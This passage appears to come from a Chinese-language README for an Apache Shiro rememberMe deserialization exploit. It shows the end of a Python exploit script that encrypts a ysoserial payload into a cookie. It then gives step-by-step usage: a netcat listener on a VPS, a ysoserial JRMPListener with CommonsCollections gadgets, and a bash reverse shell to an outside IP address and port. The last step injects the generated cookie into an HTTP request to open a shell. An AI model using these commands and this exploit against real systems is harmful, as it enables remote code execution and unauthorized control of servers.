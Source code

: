 ```
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
	try:
		poc(sys.argv[1],sys.argv[2],keys[1],'CommonsCollections2')
	except Exception,e:
		print '''
		
usage: python2.exe ./Shiro_exploit.py http://192.168.66.38:86 "touch success"
		
		'''
```





**开始利用**

1.在VPS上监听反弹shell的命令

```
nc -lvp 4444
```



2.在VPS上启动ysoserial的JRMPListener服务

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"

java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "bash -i >& /dev/tcp/39.108.99.6/10086 0>&1"
```

CommonsCollections4也可以换成CommonsCollections2或者其他





3.运行python脚本本地也可以

```
python shiro_exp_payload.py vpsip:1099
```

python脚本将生成cookie

![1565544767938](README.assets/1565544767938.png)

将cookie带入http请求中即可反弹shell
